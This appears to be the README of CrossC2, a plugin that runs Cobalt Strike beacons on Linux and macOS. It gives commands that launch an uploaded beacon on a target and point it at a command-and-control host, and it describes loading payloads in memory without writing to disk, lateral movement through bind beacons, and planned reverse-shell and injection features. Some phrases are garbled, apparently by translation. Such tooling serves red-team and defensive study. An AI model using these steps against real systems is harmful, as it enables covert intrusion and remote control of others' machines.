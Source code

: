 * Run the one-click online script generated by the CrossC2 plugin on the target
* After uploading the beacon to the target machine for empowered operation
* Set the working directory for beacon and run: `export CCPATH=/opt/ && /tmp/c2`
* Temporarily specify the protocol library for beacon and run: `/tmp/c2 /tmp/c2-rebind.so`
* Temporarily set C2 configuration for beacon: `export CCHOST=127.0.0.1 && export CCPORT=443 && /tmp/c2`

## Reference documents: [📖 Wiki](https://gloxec.github.io/CrossC2/en/usage/)

## Module: API introduction [📖 Wiki](https://gloxec.github.io/CrossC2/en/api/)

It adopts the method of loading memory without landing, and supports dynamic libraries (.so/.dylib) and executable files (ELF/MachO).

The type of output information can be freely specified at the time of execution. The return type has been predetermined and can be docked with the native return data type of CS.

<details><summary><b>warning⚠️</b></summary></details>

<details><summary><b>CustomExtension</b></summary></details>


## Custom communication protocol: API introduction [📖 Wiki](https://gloxec.github.io/CrossC2/en/protocol/)

Can more easily realize C2Profile configuration and custom communication protocol TCP / UDP and so on.

## Lateral movement

1. Generate beacon of `Linux-bind` / `MacOS-bind` type
2. The target in the intranet runs `./MacOS-bind.beacon <port>` to start the service
3. Run `connect <targetIP>:<port>` in the session of China Unicom


## Run script in memory

<details><summary><b>Examples</b></summary></details>

# Coming soon

1. Rich C2Profile support ✔︎ (Choose custom HTTP module when CNA generates beaocn)
2. Staged Type Shellcode Generation ✔︎ (Only Linux is temporarily supported, and stagerServer needs to be started on the server)
3. http-proxy (auth) & socks proxy back connection support
4. Proxy-Pivots  ✔︎ (Temporarily adopt the method of connecting back to socks proxy)
5. node beacon? (Single node type, can host other beacon without relying on teamserver)
6. Linux & MacOS side so/dylib's reverse shell support, and its derivative process injection functions
